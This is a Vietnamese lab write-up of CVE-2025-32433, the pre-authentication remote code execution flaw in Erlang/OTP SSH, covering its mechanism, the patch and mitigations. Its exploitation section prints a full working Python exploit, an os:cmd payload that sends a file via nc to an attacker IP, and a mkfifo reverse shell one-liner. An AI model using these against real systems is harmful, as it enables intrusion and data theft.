








<div align="center">
    <h1>Nghiên cứu CVE-2025-32433: Lỗ hổng trong triển khai SSH của Erlang/OTP</h1>
</div>

## 1. Tổng quan về CVE-2025-32433

`CVE-2025-32433` là một lỗ hổng nghiêm trọng trong máy chủ `SSH` của `Erlang/OTP`, cho phép kẻ tấn công thực thi mã từ xa (`RCE`) mà không cần xác thực.

- CVE ID: `CVE-2025-32433`
- Mức độ nghiêm trọng: `Critical`
- Điểm CVSS: `10`
- Ngày công bố: `16/04/2025`
- Các phiên bản ảnh hưởng: 
    - `OTP 25.x`: đến `25.3.2.19`
    - `OTP 26.x`: đến `26.2.5.10`
    - `OTP 27.x`: đến `27.3.2`
- Các phiên bản được vá:
    - `OTP 25.3.2.20`
    - `OTP 26.2.5.11`
    - `OTP 27.3.3`

## 2. Các công nghệ liên quan
### 2.1. Erlang
- `Erlang` là một ngôn ngữ lập trình hàm (`functional`) được thiết kế cho các hệ thống phân tán, thời gian thực, có độ tin cậy và khả năng chịu lỗi cao - đặc biệt phổ biến trong các lĩnh vực như viễn thông, nhắn tin, IoT, và xử lý đồng thời quy mô lớn

### 2.2. OTP (Open Telecom Platform)
- `OTP` (`Open Telecom Platform`) không phải là một nền tảng riêng, mà là bộ thư viện tiêu chuẩn và framework đi kèm với `Erlang`.
- `OTP` cung cấp các module như GenServer và Supervisor để xây dựng hệ thống ổn định, dễ mở rộng và tự phục hồi.

### 2.3. SSH
- `SSH (Secure Shell)` là một giao thức mạng được sử dụng rộng rãi để thiết lập kết nối an toàn giữa máy khách và máy chủ qua một kênh được mã hóa.
- `SSH` cho phép thực hiện các thao tác điều khiển từ xa, truyền tệp, và thực thi lệnh trên hệ thống mục tiêu một cách bảo mật, nhờ vào cơ chế mã hóa mạnh và xác thực danh tính người dùng.
## 3. Cơ chế khai thác
- Lỗ hổng xuất phát từ việc máy chủ `SSH` của `Erlang/OTP` xử lý không đúng các thông điệp giao thức `SSH` trong giai đoạn trước xác thực.
- Cụ thể, máy chủ cho phép gửi và xử lý các thông điệp như `SSH_MSG_CHANNEL_OPEN` và `SSH_MSG_CHANNEL_REQUEST` trước khi quá trình xác thực hoàn tất. Điều này cho phép kẻ tấn công mở kênh và gửi yêu cầu thực thi lệnh mà không cần cung cấp thông tin xác thực hợp lệ.
- Theo chuẩn `RFC 4252` và `RFC 4254`, một máy chủ `SSH` phải hoàn tất quá trình xác thực trước khi cho phép các hành động như mở kênh, truyền dữ liệu, hoặc thực thi lệnh.
- Trong quá trình bắt tay (handshake) của SSH để thiết lập kết nối, một số loại message quan trọng có `IDs >= 80` (như `SSH_MSG_CHANNEL_OPEN` và `SSH_MSG_CHANNEL_REQUEST` kể trên). Nếu máy chủ `SSH` cố gắng gửi những message này trước khi xác thực, nó phải được nhận diện và ngắt kết nối ngay lập tức. Tuy nhiên nếu máy chủ không được cài đặt để thực hiện điều này thì rất dễ dẫn đến lỗ hổng. 
- Quy trình kết nối `SSH` hợp lệ thông qua các bước:
    - 🔌 Kết nối TCP
    - 🤝 Trao đổi phiên bản SSH
    - 🔐 Khởi tạo phiên làm việc
    - ✅ Xác thực người dùng
    - 🧱 Mở kênh: Sau khi xác thực, client gửi gói `SSH_MSG_CHANNEL_OPEN`
    - 💬 Gửi yêu cầu thực thi: Client gửi `SSH_MSG_CHANNEL_REQUEST` với yêu cầu cụ thể như: `exec`, `shell`, `subsystem`.
- Tuy nhiên trên hệ thống chứa lỗ hổng này, việc gửi các gói tin mở kênh và thực thi có thể được thực hiện trước khi xác thực, điều này dẫn đến `RCE` trên hệ thống.
- Nếu `daemon Erlang/OTP` SSH hoạt động với các đặc quyền nâng cao, chẳng hạn như root, thì việc khai thác thành công có thể cấp cho tác nhân đe dọa toàn quyền kiểm soát hệ thống bị ảnh hưởng.

## 4. Thực nghiệm khai thác

- Bài báo cáo sẽ thực hiện dựng lại và mô tả quá trình khai thác trên môi trường thực nghiệm thông qua các PoC liên quan.
- PoC được sử dụng: https://github.com/ProDefense/CVE-2025-32433

### 4.1. Dựng lại môi trường.

- Tải xuống PoC:
```bash
git clone https://github.com/ProDefense/CVE-2025-32433
```


- Build môi trường có trong `Dockerfile`. Theo đó, Erlang/OTP sử dụng phiên bản `26.2.5.10` chứa lỗ hổng.
- Server `SSH` được setup chạy trên port `2222`, không cho phép đăng nhập nhưng vẫn ghi lại log.



- Chạy container vừa build, kiểm tra xem `SSH` đã được chạy thành công chưa.

### 4.2. Quá trình khai thác

- Mục tiêu thực hiện là `RCE` trên hệ thống thông qua SSH server mà không cần đăng nhập.
- Sử dụng script sau:

```python
import socket
import struct
import time

HOST = "127.0.0.1"  # Target IP (change if needed)
PORT = 2222  # Target port (change if needed)


# Helper to format SSH string (4-byte length + bytes)
def string_payload(s):
    s_bytes = s.encode("utf-8")
    return struct.pack(">I", len(s_bytes)) + s_bytes


# Builds SSH_MSG_CHANNEL_OPEN for session
def build_channel_open(channel_id=0):
    return (
        b"\x5a"  # SSH_MSG_CHANNEL_OPEN
        + string_payload("session")
        + struct.pack(">I", channel_id)  # sender channel ID
        + struct.pack(">I", 0x68000)  # initial window size
        + struct.pack(">I", 0x10000)  # max packet size
    )


# Builds SSH_MSG_CHANNEL_REQUEST with 'exec' payload
def build_channel_request(channel_id=0, command=None):
    if command is None:
        command = 'file:write_file("/lab.txt", <<"pwned">>).'
    return (
        b"\x62"  # SSH_MSG_CHANNEL_REQUEST
        + struct.pack(">I", channel_id)
        + string_payload("exec")
        + b"\x01"  # want_reply = true
        + string_payload(command)
    )


# Builds a minimal but valid SSH_MSG_KEXINIT packet
def build_kexinit():
    cookie = b"\x00" * 16

    def name_list(l):
        return string_payload(",".join(l))

    # Match server-supported algorithms from the log
    return (
        b"\x14"
        + cookie
        + name_list(
            [
                "curve25519-sha256",
                "ecdh-sha2-nistp256",
                "diffie-hellman-group-exchange-sha256",
                "diffie-hellman-group14-sha256",
            ]
        )  # kex algorithms
        + name_list(["rsa-sha2-256", "rsa-sha2-512"])  # host key algorithms
        + name_list(["aes128-ctr"]) * 2  # encryption client->server, server->client
        + name_list(["hmac-sha1"]) * 2  # MAC algorithms
        + name_list(["none"]) * 2  # compression
        + name_list([]) * 2  # languages
        + b"\x00"
        + struct.pack(">I", 0)  # first_kex_packet_follows, reserved
    )


# Pads a packet to match SSH framing
def pad_packet(payload, block_size=8):
    min_padding = 4
    padding_len = block_size - ((len(payload) + 5) % block_size)
    if padding_len < min_padding:
        padding_len += block_size
    return (
        struct.pack(">I", len(payload) + 1 + padding_len)
        + bytes([padding_len])
        + payload
        + bytes([0] * padding_len)
    )


# === Exploit flow ===
try:
    with socket.create_connection((HOST, PORT), timeout=5) as s:
        print("[*] Connecting to SSH server...")

        # 1. Banner exchange
        s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
        banner = s.recv(1024)
        print(f"[+] Received banner: {banner.strip().decode(errors='ignore')}")
        time.sleep(0.5)  # Small delay between packets

        # 2. Send SSH_MSG_KEXINIT
        print("[*] Sending SSH_MSG_KEXINIT...")
        kex_packet = build_kexinit()
        s.sendall(pad_packet(kex_packet))
        time.sleep(0.5)  # Small delay between packets

        # 3. Send SSH_MSG_CHANNEL_OPEN
        print("[*] Sending SSH_MSG_CHANNEL_OPEN...")
        chan_open = build_channel_open()
        s.sendall(pad_packet(chan_open))
        time.sleep(0.5)  # Small delay between packets

        # 4. Send SSH_MSG_CHANNEL_REQUEST (pre-auth!)
        print("[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...")
        chan_req = build_channel_request(
            command='file:write_file("/lab.txt", <<"pwned">>).'
        )
        s.sendall(pad_packet(chan_req))

        print(
            "[✓] Exploit sent! If the server is vulnerable, it should have written to /lab.txt."
        )

        # Try to receive any response (might get a protocol error or disconnect)
        try:
            response = s.recv(1024)
            print(f"[+] Received response: {response.hex()}")
        except socket.timeout:
            print("[*] No response within timeout period (which is expected)")

except Exception as e:
    print(f"[!] Error: {e}")
```

- Luồng thực thi của script trên:
    - 📌Kết nối đến server
    ```py
    with socket.create_connection((HOST, PORT), timeout=5) as s:
    ```
    - 📌Trao đổi banner
    ```python
    s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
    banner = s.recv(1024)
    ```
    - 📌Gửi gói `KEXINIT`
    ```py
    s.sendall(pad_packet(build_kexinit()))
    ```
    -  📌Gửi `CHANNEL_OPEN`
    ```python
    s.sendall(pad_packet(build_channel_open()))
    ```
    → Gửi gói mở channel trước khi xác thực — đây là gói tin đáng ra phải được gửi sau khi xác thực.

    - 📌Gửi `CHANNEL_REQUEST` dạng "exec"

    ```py
    s.sendall(pad_packet(build_channel_request(...)))
    ```
    → Tương tự, gói tin này được gửi mà không cần xác thực, nếu thực thi thành công, nó sẽ thực thi câu lệnh cho phép ghi một file `lab.txt` trên mục tiêu với nội dung là `pwned`.

    ```py
    command='file:write_file("/lab.txt", <<"pwned">>).'
    ```

    - 📌Cuối cùng là nhận phản hồi.

- Thực thi script này với môi trường vừa dựng được



- Kiểm tra hệ thống, thấy rằng file `lab.txt` đã được ghi thành công.



- Tuy nhiên, đây là khi ta có quyền truy cập hệ thống, đứng dưới góc nhìn của kẻ tấn công, thử tìm cách đọc file `lab.txt` này mà không có quyền truy cập.

- Tại đây, ta thay đoạn mã RCE bằng lệnh đọc file sau đó gửi nội dung qua `nc` về máy attacker. (Tất nhiên, trong trường hợp này, giải sử mục tiêu đã được cài đặt `nc`)

```python
    'os:cmd("cat /lab.txt | nc 10.0.2.15 4444").'
```



- Nội dung file `lab.txt` sẽ được gửi tới trình lắng nghe trên máy tấn công.



- Theo đó, attacker hoàn toàn có thể chèn một reverse shell để kiểm soát hệ thống

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.15 4444 >/tmp/f
```



- Thành công tạo shell kết nối đến máy nạn nhân.



## 5. Vá lỗ hổng 

- Sau khi được ghi nhận, lỗ hổng này được khắc phục tại phiên bản OTP-26.2.5.11.
- Chi tiết cập nhật mã nguồn được lưu tại [github của erlang](https://github.com/erlang/otp/commit/b1924d37fd83c070055beb115d5d6a6a9490b891#diff-ceeb1aeeb602e1424c13d9da9383e0782f65869d6e64e015c194145b1a64edcd) 
- Cụ thể, CVE này được khắc phục bằng cách thêm một pattern matching (khớp mẫu) trong Erlang (thường được dùng để xử lý message trong một state machine của một quá trình SSH server.)

```erl
handle_msg(Msg, Connection, server, Ssh = #ssh{authenticated = false})
```

- Theo đó nó kiểm tra gói `Msg` đó là gì, trạng thái kết nối cũng như vai trò (`server` hay `client`). Bất kỳ message nào gửi sau xác thực (tức có opcode ≥ 80) đều bị ngắt kết nối và ghi lại log.

```
handle_msg(#ssh_msg_disconnect{code = Code, description = Description}, Connection, _, _SSH) ->
    {disconnect, {Code, Description}, handle_stop(Connection)};

handle_msg(Msg, Connection, server, Ssh = #ssh{authenticated = false}) ->
    %% See RFC4252 6.
    %% Message numbers of 80 and higher are reserved for protocols running
    %% after this authentication protocol, so receiving one of them beforeAdd commentMore actions
    %% authentication is complete is an error, to which the server MUST
    %% respond by disconnecting, preferably with a proper disconnect message
    %% sent to ease troubleshooting.
    MsgFun = fun(M) ->
                     MaxLogItemLen = ?GET_OPT(max_log_item_len, Ssh#ssh.opts),
                     io_lib:format("Connection terminated. Unexpected message for unauthenticated user."
                                   " Message:  ~w", [M],
                                   [{chars_limit, MaxLogItemLen}])
             end,
    ?LOG_DEBUG(MsgFun, [Msg]),
    {disconnect, {?SSH_DISCONNECT_PROTOCOL_ERROR, "Connection refused"}, handle_stop(Connection)};
```

- Các hệ thống sử dụng các phiên bản gặp lỗi cần nâng cấp lên phiên bản đã được vá: `OTP-27.3.3`, `OTP-26.2.5.11`, `OTP-25.3.2.20`.
- Một số giải pháp hạn chế lỗ hổng tạm thời như:
    - Tắt máy chủ Erlang/OTP SSH nếu không cần thiết.
    - Triển khai các quy tắc tường lửa để hạn chế quyền truy cập vào máy chủ SSH, chỉ cho phép các địa chỉ IP đáng tin cậy.
    - Triển khai các cơ chế xác thực bổ sung để bảo mật quyền truy cập SSH.​

## Tài liệu tham khảo và các bài viết liên quan

- https://nvd.nist.gov/vuln/detail/CVE-2025-32433
- https://github.com/erlang
- https://github.com/ProDefense/CVE-2025-32433
- https://www.offsec.com/blog/cve-2025-32433/
- https://www.cybereason.com/blog/rce-vulnerability-erlang-otp
- https://tryhackme.com/room/erlangotpsshcve202532433

